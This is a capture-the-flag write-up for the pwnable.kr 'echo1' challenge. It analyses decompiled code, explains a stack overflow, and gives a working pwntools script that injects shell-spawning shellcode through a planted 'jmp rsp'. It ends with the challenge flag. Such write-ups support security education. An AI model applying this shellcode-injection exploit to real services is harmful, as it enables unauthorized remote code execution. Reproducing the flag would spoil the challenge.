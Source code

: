 # echo1

## Description

echo1 - 25 pt

> Pwn this echo service. <br><br>
> download : http://pwnable.kr/bin/echo1 <br><br>
> Running at : nc pwnable.kr 9010


## Solution

### Understanding the binary

Let's start by checking what kind of file it is:

```bash
$ file echo1
echo1: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=fa367b7e8f66b68737a56333996d80f0d72e54ea, not stripped
```

Nothing special here. Now, let's check the security features:

```bash
$ checksec --file=login
RELRO           STACK CANARY      NX            PIE
Partial RELRO   No canary found   NX disabled   No PIE
```

It looks like there are no standard mitigations enabled. Usually, when the NX bit is not set and there is no stack canary, we'll need to return to the stack and execute shellcode.

For now, let's stop speculating and check the binary in IDA.

**main:**
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  _QWORD *v3; // rax
  unsigned int i; // [rsp+Ch] [rbp-24h] BYREF
  _QWORD v6[4]; // [rsp+10h] [rbp-20h] BYREF

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  o = malloc(0x28uLL);
  *((_QWORD *)o + 3) = greetings;
  *((_QWORD *)o + 4) = byebye;
  printf("hey, what's your name? : ");
  __isoc99_scanf("%24s", v6);
  v3 = o;
  *(_QWORD *)o = v6[0];
  v3[1] = v6[1];
  v3[2] = v6[2];
  id = v6[0];
  getchar();
  func[0] = (__int64)echo1;
  qword_602088 = (__int64)echo2;
  qword_602090 = (__int64)echo3;
  for ( i = 0; i != 121; i = getchar() )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        puts("\n- select echo type -");
        puts("- 1. : BOF echo");
        puts("- 2. : FSB echo");
        puts("- 3. : UAF echo");
        puts("- 4. : exit");
        printf("> ");
        __isoc99_scanf("%d", &i);
        getchar();
        if ( i > 3 )
          break;
        ((void (*)(void))func[i - 1])();
      }
      if ( i == 4 )
        break;
      puts("invalid menu");
    }
    cleanup();
    printf("Are you sure you want to exit? (y/n)");
  }
  puts("bye");
  return 0;
}
```

**echo1:**
```c
__int64 echo1()
{
  char s[32]; // [rsp+0h] [rbp-20h] BYREF

  (*((void (__fastcall **)(void *))o + 3))(o);
  get_input(s, 128LL);
  puts(s);
  (*((void (__fastcall **)(void *))o + 4))(o);
  return 0LL;
}
```

**echo2:**
```c
__int64 echo2()
{
  puts("not supported");
  return 0LL;
}
```
echo3 is the same, byebye and greetings are simply printing strings, and get_input is a wrapper for fgets.

The program allocates a 5 * 8 bytes buffer (or in other words, a buffer that stores 5 addresses). In the last two indexes of the buffer, it stores the addresses of the `greetings` and `byebye` functions. Then, it reads 24 bytes from the user into the first three indexes of the buffer, and stores the first 8 bytes of the buffer at `id`.

After that, the program enters a loop in which it prompts the use for an index, and according to that index it does one of the following:
* calls `echo1`
* calls `echo2`
* calls `echo3`
* exists the loop

### Exploit

Most of the code is irrelevant, so let's focus on the important part. In `echo1` the program calls `get_input` with a buffer of size 128, on a buffer of size 32. 

Our goal is to overwrite the return address of `echo1` with the address of some `jmp rsp` call and then, overwrite the following bytes with shellcode calling `execve("/bin/sh", 0, 0)`.

And so, the challenge is to find a `jmp rsp` gadget in the binary. Unfourtenatly, running `ROPgadget` doesn't yield anything useful, and so does searching the binary for the bytes `FF E4` (the opcode of `jmp rsp`) with  `next(elf.search(asm('jmp rsp')))`. 

However, we can go in a different approach. Instead of searching for a `jmp rsp` gadget, we build ourselves one! Remember that the first 8 bytes of the input are saved at `id`. We can save there the opecode of `jmp rsp` and then overwrite the return address with the address of `id`. 

**Note:** When running the exploit on a local copy of the binary, it might not work for you. On older kernels, when compiling the executable with `-zexecstack` (making the stack executable), the data sections might be loaded as executable too (Which is why or exploit works on the pwnable.kr server). However, they might not be executable on newer kernels.

### Exploit code

```python
from pwn import *

elf = context.binary = ELF('./echo1')
conn = remote('pwnable.kr', 9010)

open_shell = asm(shellcraft.amd64.linux.sh())
jmp_rsp = asm('jmp rsp')

# give "jmp rsp" opcode as name to be saved under id
conn.sendline(jmp_rsp) 

# choose BOF echo 
conn.sendline(b'1')

# overwriting retaddr with the adress of id and the rest of the stack with shellcode 
conn.sendline(b'A' * 40 + p64(0x6020A0) + open_shell)

conn.interactive()
```

```
H4d_som3_fun_w1th_ech0_ov3rfl0w
```